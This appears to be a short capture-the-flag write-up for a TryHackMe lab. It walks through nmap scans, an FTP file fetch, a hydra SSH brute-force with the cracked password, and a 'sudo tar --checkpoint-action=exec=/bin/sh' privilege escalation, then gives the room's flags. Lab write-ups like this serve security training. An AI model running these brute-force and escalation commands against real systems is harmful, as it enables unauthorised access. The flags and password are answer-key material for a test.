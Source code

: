 # Living up to the title.

## Notes
```
nmap -sV $IP
Host is up (0.29s latency).
Not shown: 967 filtered ports, 32 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

nmap $IP
Nmap scan report for 10.10.179.167
Host is up (0.31s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## Questions
1. Who wrote the task list?
```
connect to ftp get task.txt

lin
```

2. What service can you bruteforce with the text file found?
```
looking at locks.txt we can bruteforce ssh

ssh
```

3. What is the users password? 
```
hydra -l lin -P bounty_hacker/locks.txt -t 6 ssh://$IP

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-19 20:27:29
[DATA] max 6 tasks per 1 server, overall 6 tasks, 26 login tries (l:1/p:26), ~5 tries per task
[DATA] attacking ssh://10.10.179.167:22/
[22][ssh] host: 10.10.179.167   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-19 20:27:39

RedDr4gonSynd1cat3
```

4. user.txt
```
ssh using lin

THM{CR1M3_SyNd1C4T3}
```

5. root.txt
```
sudo -l
gtfobin for tar #Sudo section
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

THM{80UN7Y_h4cK3r}
```